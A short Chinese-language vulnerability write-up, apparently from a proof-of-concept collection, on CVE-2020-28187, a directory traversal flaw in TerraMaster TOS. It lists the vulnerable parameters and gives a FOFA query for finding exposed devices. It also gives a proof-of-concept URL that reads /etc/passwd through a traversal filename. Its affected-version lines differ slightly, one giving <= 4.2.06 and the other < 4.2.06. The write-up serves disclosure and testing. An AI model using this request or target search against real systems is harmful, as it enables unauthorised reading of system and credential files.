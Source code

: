 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.2.06

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

登陆后访问，验证漏洞的POC为

```
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![](image/tm-8.png)

